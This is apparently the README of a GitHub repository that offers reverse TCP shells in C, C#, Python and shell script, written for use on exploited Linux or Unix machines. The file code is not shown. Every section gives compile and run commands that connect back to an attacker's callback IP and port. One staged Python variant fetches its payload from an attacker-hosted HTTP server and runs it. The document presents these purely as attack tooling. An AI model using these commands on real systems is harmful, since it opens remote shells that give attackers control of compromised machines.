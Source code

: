 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
    If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

    to call a staged shell run the following command:

      python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
